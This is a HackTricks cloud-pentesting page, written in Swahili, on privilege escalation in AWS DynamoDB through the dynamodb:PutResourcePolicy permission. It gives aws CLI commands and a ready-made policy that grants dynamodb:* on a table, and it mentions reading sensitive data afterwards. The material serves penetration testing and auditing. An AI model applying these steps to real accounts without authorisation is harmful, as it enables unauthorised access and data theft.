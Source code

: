 # AWS - DynamoDB Privesc

{{#include ../../../banners/hacktricks-training.md}}

## dynamodb

Kwa maelezo zaidi kuhusu dynamodb angalia:

{{#ref}}
../aws-services/aws-dynamodb-enum.md
{{#endref}}

### `dynamodb:PutResourcePolicy`, na kwa hiari `dynamodb:GetResourcePolicy`

Tangu Machi 2024, AWS inatoa *sera za msingi wa rasilimali* kwa ajili ya DynamoDB ([AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/)).

Hivyo, ikiwa una `dynamodb:PutResourcePolicy` kwa meza, unaweza kujipa wewe mwenyewe au mtu mwingine yeyote ufikiaji kamili kwa meza hiyo.

Kutoa `dynamodb:PutResourcePolicy` kwa mtu yeyote wa bahati mbaya mara nyingi hutokea kwa bahati mbaya, ikiwa wasimamizi wanafikiri kwamba kutoa `dynamodb:Put*` kutaruhusu tu mtu huyo kuweka vitu kwenye hifadhidata - au ikiwa walitoa seti hiyo ya ruhusa kabla ya Machi 2024...

Kwa kawaida, unapaswa pia kuwa na `dynamodb:GetResourcePolicy`, ili usiandike tena ruhusa nyingine muhimu, bali tu uweke ruhusa zilizoongezwa unazohitaji:
```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
--resource-arn <table_arn> \
--query 'Policy' \
--output text > policy.json
```
Ikiwa huwezi kupata sera ya sasa, tumia hii ambayo inatoa ufikiaji kamili juu ya jedwali kwa mhusika wako:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "FullAccessToDynamoDBTable",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
},
"Action": [
"dynamodb:*"
],
"Resource": [
"arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
]
}
]
}
```
Ikiwa unahitaji kuiboresha, hapa kuna orodha ya vitendo vyote vinavyowezekana vya DynamoDB: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Operations.html). Na hapa kuna orodha ya vitendo vyote vinavyoweza kuruhusiwa kupitia sera ya msingi ya rasilimali *NA ni yapi kati ya haya yanaweza kutumika kati ya akaunti (fikiria kuhusu uhamasishaji wa data!)*: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/rbac-iam-actions.html)

Sasa, ikiwa hati ya sera `policy.json` iko tayari, weka sera ya rasilimali:
```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
--resource-arn <table_arn> \
--policy "$(cat policy.json)"
```
Sasa, unapaswa kuwa na ruhusa ulizohitaji.

### Post Exploitation

Kuhusu ninavyojua, **hakuna njia nyingine ya moja kwa moja ya kupandisha ruhusa katika AWS kwa kuwa na ruhusa za AWS `dynamodb`**. Unaweza **kusoma taarifa nyeti** kutoka kwa meza (ambazo zinaweza kuwa na akauti za AWS) na **kuandika taarifa kwenye meza** (ambazo zinaweza kusababisha udhaifu mwingine, kama vile sindano za msimbo wa lambda...) lakini chaguzi hizi zote tayari zinachukuliwa katika **ukurasa wa Post Exploitation wa DynamoDB**:

{{#ref}}
../aws-post-exploitation/aws-dynamodb-post-exploitation.md
{{#endref}}

### TODO: Soma data kwa kutumia data Streams

{{#include ../../../banners/hacktricks-training.md}}
